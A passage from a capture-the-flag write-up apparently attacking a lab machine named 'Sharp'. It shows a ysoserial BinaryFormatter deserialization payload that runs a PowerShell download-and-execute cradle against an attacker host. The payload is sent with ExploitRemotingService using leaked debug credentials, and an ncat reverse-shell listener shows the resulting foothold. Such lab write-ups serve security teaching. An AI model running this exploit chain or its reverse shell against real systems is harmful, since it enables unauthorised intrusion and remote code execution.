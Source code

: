 * https://github.com/ivan-sincek/powershell-reverse-tcp

```
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> .\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.172:8090/test2.ps1')"
```

I saved this new reverse shell to test2.ps1 and created a new base64 stream with `ysoserial.exe`.

```powershell
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> ../ExploitRemotingService.exe -s --ver=4 --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw AAEAAAD/////AQAAAAAAAAA
```

Then I executed my payload

## Initial Foothold

```powershell
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> .\ncat.exe -lvn 9000
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.10.219:49722.
PS>whoami /all

USER INFORMATION
----------------

User Name  SID
========== ============================================
sharp\lars S-1-5-21-294878639-2649470188-886412631-1007


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                          Attributes

====================================== ================ ============================================ ==================================================
Everyone                               Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
SHARP\dev                              Alias            S-1-5-21-294878639-2649470188-886412631-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

```